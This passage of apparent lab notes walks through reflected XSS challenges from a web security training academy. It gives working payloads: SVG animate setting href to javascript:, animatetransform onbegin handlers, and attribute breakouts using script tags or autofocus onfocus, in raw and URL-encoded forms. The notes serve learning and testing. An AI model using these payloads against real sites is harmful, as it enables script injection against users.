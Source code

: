 ```
      values="0;5;0"
      dur="10s"
      repeatCount="indefinite" />
  </rect>
</svg>
```
`<animate>` will actually set an attribute on the parent html element in the case of the example above it'll set `<rx>` attribute with values `0;5;0` on the parent `<rect>` element.

So here's what we had:
```
<svg><a><text x=20 y=20>Click me</text></a>
```
And now since `href` is blocked on `<a>` element (e.g.: `<a href="">`) we can use `<animate>` which will set `href` for the parent element (which is `<a>` in the case below):
```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

The same but url encoded:
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

### Lab: Reflected XSS with some SVG markup allowed
First brute force for allowed html tags
We see that `<svg>` and `<animatetransform>` are allowed
We then brute force for allowed events:
We find that `onbegin` event is allowed, which specifies `js` code to be executed at the beginning of the animation
Therefore the solution is:
```
/?search=<svg><animatetransform onbegin=alert(1)>
```
or url encoded:
```
/?search=%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

### XSS in HTML tag attributes
When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
```
"><script>alert(document.domain)</script>
```
More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example: 
```
" autofocus onfocus=alert(document.domain) x="
```
The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup. 
